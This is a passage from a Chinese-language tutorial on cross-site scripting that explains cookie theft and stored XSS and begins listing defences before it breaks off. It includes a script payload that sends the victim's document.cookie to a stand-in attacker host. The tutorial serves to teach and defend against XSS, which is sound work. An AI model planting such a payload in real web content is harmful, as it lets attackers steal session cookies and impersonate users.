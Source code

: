 当用户点击 `testcookie 攻击` 这个链接的时候，首先要保证页面上有 cookie，比如我请求如下的 cookie:

![img](./assets/412.png)

然后我们点击 `testcookie 攻击` 链接，就会调用 node 中的 `router.get('/testcookie', (ctx, next) => {})` 这个请求会获取到 cookie，如下所示：
![img](./assets/413.png)

如上我们就可以很容易通过 xss 攻击拿到对方的 cookie 信息了。

## 三、存储型 XSS

**存储型 XSS 的原理是：将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。**

比如我现在做了一个博客网站，然后攻击者在上面发布了一篇文章，内容中包含了一段代码：`<script>window.open("www.gongji.com?param="+document.cookie)</script>` ，如果我没有对该文章进行任何处理，而是逐字逐句直接存入到数据库中，那么下一次当其他用户访问该文章的时候，服务器就会从数据库中读取到该内容，然后响应给客户端。这时候浏览器以为这是命令，就会执行这段脚本，然后攻击者就会获取到用户的 cookie，并把该 cookie 发送到攻击者的服务器上。

### 1、存储型 XSS 的攻击步骤

1. 攻击者将恶意代码提交到目标网站数据库中。

2.  用户打开目标网站时，网站服务器将恶意代码从数据库中取出，然后拼接到html中返回给浏览器中。
3. 用户浏览器接收到响应后解析执行，那么其中的恶意代码也会被执行。
4. 那么恶意代码执行后，就能获取到用户数据，比如上面的cookie等信息，那么把该cookie发送到攻击者网站中，那么攻击者拿到该cookie然后会冒充该用户的行为，调用目标网站接口等违法操作。

### 2、如何防范存储型 XSS 攻击

1. 后端需要对提交的数据进行过滤。
